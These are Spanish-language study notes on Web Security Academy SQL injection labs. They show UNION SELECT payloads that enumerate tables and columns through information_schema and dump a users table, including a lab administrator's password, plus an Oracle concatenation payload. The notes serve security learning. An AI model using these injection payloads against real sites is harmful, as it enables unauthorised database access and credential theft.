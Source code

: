 ```
RESULTADO FINAL:
https://ID.web-security-academy.net/filter?category=Lifestyle'UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema='public' AND table_type='BASE TABLE'--

RESULTADO: users_xrkoxi

PASO 5 IDENTIFICAR LAS COLUMNAS

SELECT column_name,data_type FROM information_schema.columns WHERE table_name = 'users_xrkoxi'-- // OBTIENE LAS COLUMNAS DE LA TABLA


RESULTADO

username_lkcolf
character varying

password_khjyrl
character varying

Y LA EMAIL PERO NO LA COPIE

PASO 6 REALIZAR CONSULTA DE LOS USUARIOS

SELECT username_lkcolf,password_khjyrl FROM 'users_xrkoxi'--

RESULTADO
https://ID.web-security-academy.net/filter?category=Lifestyle'UNION SELECT username_lkcolf,password_khjyrl FROM users_xrkoxi--

USER:administrator
PASS:ubkfkbwgny54kk6o2yx2

FUENTE DE LOS COMANDOS STACKOVERFLOW
```
### Obtener multiples valores en una comluna
Seuan logico, la respuesta es concatenar, la caul se le puede añadir un caracter como separador para conocer el inicio y fin de la información, los comandos de concatenación y caracteres pueden cambiar segun la base de datos, a continuaci´´on un ejemplo de concatenación en Oracle

```
Concatenación en Oracle, los caracteres de concatenación son "||" 
' UNION SELECT username || '~' || password FROM users--
```
### Laboratorio  Obtener multiples valores en una comluna

1.- Identificar el parametro bulnerable (nos dicen que es filter) # si es filter
2.- Veririfcar la cantidad (este solo sera 1) # son 2 parametros concatenados
3.- Identificar el tipo de dato (int, varchar, bool, etc) # es prostgreSQL
4.- Obtener información interesante o requerida //Obtener las credenciales de administrador
NOTA: Recuerda lo aprendido de como listar bd, tablas y columnas, parece que serán necesarias
